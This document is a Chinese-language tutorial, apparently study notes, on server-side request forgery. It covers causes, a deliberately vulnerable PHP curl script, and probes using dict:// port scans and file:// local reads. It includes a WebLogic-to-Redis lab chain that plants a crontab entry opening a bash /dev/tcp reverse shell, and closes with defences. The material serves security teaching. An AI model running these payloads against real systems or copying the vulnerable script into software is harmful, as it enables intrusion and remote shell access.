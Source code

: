 # SSRF 概述及其危害

## SSRF概述

互联网上的很多Web应用提供了从其他服务器（也可以是本地）获取数据的功能。使用用户指定的URL，Web应用可以获取图片、文件资源（下载或读取）。

用户可以从本地或者URL的方式获取图片资源，交给百度识图处理。如果提交的是URL地址，该应用就会通过URL寻找图片资源。如果Web应用开放了类似于百度识图这样的功能，并且对用户提供的URL和远端服务器返回的信息没有进行合适的验证或者过滤，就可能存在“请求伪造”的缺陷。请求伪造，顾名思义就是攻击者伪造正常的请求，以达到攻击的目的，是常见的Web安全漏洞之一。如果“请求伪造”发生在服务器端，那么这个漏洞就叫做“服务器端请求伪造”，英文名字为Server-Side Request Forgery,简称SSRF。

SSRF（Server-Side Request Forgery，服务器端请求伪造）是一种攻击者发起的伪造由服务器端发起请求的一种攻击，也是常见Web安全漏洞（缺陷或者风险）之一。

## SSRF危害

@ 端口扫描
@ 内网web应用指纹识别
@ 攻击内网web应用
@ 读取本地文件

## SSRF常见代码实现

再服务器端实现通过URL从服务器（外部或者内部）获取资源功能的方法有很多，此处使用PHP语言和curl扩展实现改功能

通过phpinfo()函数查看对curl扩展的支持，现在大部分wamp套件均支持curl扩展

服务器端代码如下

```
<?php
if (isset($_REQUEST['url']))
{
    $link = $_REQUEST['url'];
    $filename = './curled/'.time().'.txt';
    $curlobj = curl_init($link);
    $fp = fopen($filename,"w");
    curl_setopt($curlobj,CURLOPT_FILE,$fp);
    curl_setopt($curlobj,CURLOPT_HEADER,0);
    curl_setopt($curlobj,CURLOPT_FOLLOWLOCATION,TRUE);
    curl_exec($curlobj);
    curl_close($curlobj);
    fclose($fp);
    $fp = fopen($filename,"r");
    $result = fread($fp, filesize($filename));
    fclose($fp);
    echo $result;
}else{
    echo "?url=[url]";
}
?>
```

将以上代码保存成文件[ssrf_curl.php]。该段代码实现了从服务器获取资源的基本功能，
提交
[?url=http://www.baidu.com]
页面就会载入百度首页的资源

同时，获取的资源文件会保存在[./curled]中，并以发起请求时间的unix时间戳命名。

## SSRF利用

- 访问正常文件

访问正常的文件，提交参数[?url=http://www.baidu.com/robots.txt]

- 端口扫描(扫描内网的机器的端口)

当访问未开放端口，脚本会显示空白或者报错。提交参数[?url=dict://127.0.0.1:1234] //字典协议

当访问开放端口时，脚本会显示banner信息。
提交参数[?url=dict://172.16.132.160:22]（有成功率）
提交参数[?url=dict://127.0.0.1:3306]
提交参数[?url=dict://127.0.0.1:21]

- 读取系统本地文件

利用file协议可以任意读取系统本地文件，提交参数
[?url=file://c:\windows\system32\drivers\etc\hosts]

- 内网Web应用指纹识别

识别内网应用使用的框架，平台，模块以及cms可以为后续的渗透测试提供很多帮助。大多数web应用框架都有一些独特的文件和目录。通过这些文件可以识别出应用的类型，甚至详细的版本。根据这些信息就可以针对性的搜集漏洞进行攻击。

比如可以通过访问下列文件来判断phpMyAdmin是否安装以及详细版本
[?url=http://localhost/phpmyadmin/README]

- 攻击内网应用

内网的安全通常都很薄弱，溢出、弱口令等一般都是存在的。通过ssrf攻击，可以实现对内网的访问，从而可以攻击内网应用或者本地主机，获得shell，这里的应用包括服务、Web应用等。

仅仅通过get方法可以攻击的web应用有很多，比如struts2命令执行等。

weblogic 从 ssrf 到 redis 未授权访问到getshell
  redis数据库
    未授权访问        不需要用户名和密码就可以访问数据库，读写文件

## SSRF漏洞的挖掘

对外发起网络请求的地方都可能存在SSRF漏洞，列举图片加载，分享页面，在线翻译，未公开的api（从远程服务器请求资源文件处理，编码处理，属性信息处理等）

## SSRF的防御

@ 限制协议

仅允许http和https请求

@ 限制IP

避免应用被用来获取内网数据，攻击内网

@ 限制端口

限制请求的端口为http常用的端口，比如 80,443,8080,8090

@ 过滤返回信息

验证远程服务器对请求的响应是比较简单的方法

@ 统一错误信息

避免用户可以根据错误信息来判断远端服务器的端口状态

# Weblogic 从 ssrf 到 getShell

依赖于docker技术
docker-compose up -d 启动两个docker镜像
docker ps
docker exec -it 3963de188db5 "/bin/bash"

linux      
   crontab           计划任务

访问weblogic
  http://ip:7001

存在SSRF 漏洞

redis数据库
  未授权访问 访问redis数据库的时候，不需要提供用户名和密码
  具有root权限
  读写文件
    语法
```
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/10.0.105.222/777 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```
  读写计划任务文件crontab
  反弹shell到指定地址

getshell


# SSRF(Server-Side Request Forgery:服务器端请求伪造)

SSRF(Server-Side Request Forgery:服务器端请求伪造)是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。(正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统)

SSRF形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。

## 漏洞产生

用户在地址栏输入网址--> 向目标网站发送请求 --> 目标网站接受请求并在服务器端验证请求是否合法，然后返回用户所需要的页面 --> 用户接收页面并在浏览器中显示

此处的请求默认为www.xxx.com/a.php?image=(地址)

那么产生SSRF漏洞的环节在哪里呢？目标网站接受请求后在服务器端验证请求是否合法

产生的原因：服务器端的验证并没有对其请求获取图片的参数(image=)做出严格的过滤以及限制，导致可以从其他服务器的获取一定量的数据

终极简析：SSRF漏洞就是通过篡改获取资源的请求发送给服务器，但是服务器并没有发现这个请求是不合法的，然后服务器以他的身份来访问其他服务器的资源

## SSRF漏洞的寻找(漏洞常见出没位置)

1. 分享：通过URL地址分享网页内容
2. 转码服务
3. 在线翻译
4. 图片加载与下载：通过URL地址加载或下载图片
5. 图片、文章收藏功能
6. 未公开的api实现以及其他调用URL的功能
7. 从URL关键字中寻找
share\wap\url\link\src\source\target\u\3g\display\sourceURL\imageURL\domain

